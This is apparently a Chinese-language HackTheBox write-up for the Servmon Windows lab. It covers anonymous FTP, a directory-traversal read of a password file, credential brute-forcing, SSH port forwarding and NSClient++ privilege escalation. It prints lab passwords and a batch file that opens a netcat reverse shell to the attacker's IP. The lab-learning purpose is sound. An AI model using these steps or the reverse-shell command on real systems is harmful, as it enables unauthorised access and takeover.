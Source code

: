 ```yaml
---
title: HackTheBox-Servmon-Findows
date: 2025-4-10 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```




# nmap

![image-20250410113318146](./Servmon-windows/image-20250410113318146.png)

![image-20250410113330491](./Servmon-windows/image-20250410113330491.png)

![image-20250410113337769](./Servmon-windows/image-20250410113337769.png)

## 21端口

ftp存在匿名登录

用户名：Anonymous/anonymous 密码：空

`Users`下有两个文件夹，将内容下载到本地查看

![image-20250410113948816](./Servmon-windows/image-20250410113948816.png)

有个说明passwords在C:\Users\Nathan\Desktop\Passwords.txt下

在ftp中得到的用户名

```
Nathan
Regards
Administer #windows管理员用户名
Nadine
```



## 80端口

![image-20250410151558402](./Servmon-windows/image-20250410151558402.png)

NVMS存在远程目录读取漏洞，读取内容与POC所给出的内容一致，说明存在该漏洞，尝试读取`password.txt`

![image-20250410151742061](./Servmon-windows/image-20250410151742061.png)

windows\win.ini目录也是在C盘下,windows目录和User目录同级，成功读到Password.txt

![image-20250410151956153](./Servmon-windows/image-20250410151956153.png)

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5
```

尝试使用这些密码和ftp中得到的用户名爆破smb和ssh的账号密码

![image-20250410161219827](./Servmon-windows/image-20250410161219827.png)

```
Nadine:L1k3B1gBut7s@W0rk
```

![image-20250410161329077](./Servmon-windows/image-20250410161329077.png)

```
Nadine:L1k3B1gBut7s@W0rk 
```

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```

![image-20250410163430122](./Servmon-windows/image-20250410163430122.png)

## 8443端口/提权

![image-20250410163317235](./Servmon-windows/image-20250410163317235.png)

NSClient++默认目录在`C:\Program Files\NSClient++`在配置文件 `nsclient.ini`中有password，并且运行在靶机本地，需要端口转发到攻击机去访问这个服务

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

![image-20250410165911690](./Servmon-windows/image-20250410165911690.png)

```txt
password = ew2x6SsGTxjRwXOT
```

![image-20250410172057574](./Servmon-windows/image-20250410172057574.png)

搜索该版本漏洞，该版本存在本地提权漏洞

![image-20250410172234014](./Servmon-windows/image-20250410172234014.png)

先上传`nc.exe`和`exp.bat`

exp.bat的内容就是运行nc进行shell反弹

```bash
@echo off
c:\Users\Nadine\nc.exe 10.10.16.3 443 -e cmd.exe
```

![image-20250410174022900](./Servmon-windows/image-20250410174022900.png)

然后添加一个运行脚本运行`exp.bat`

![image-20250410174217529](./Servmon-windows/image-20250410174217529.png)

添加一个定时任务

![image-20250410174421432](./Servmon-windows/image-20250410174421432.png)

等一会就可以得到管理员的shell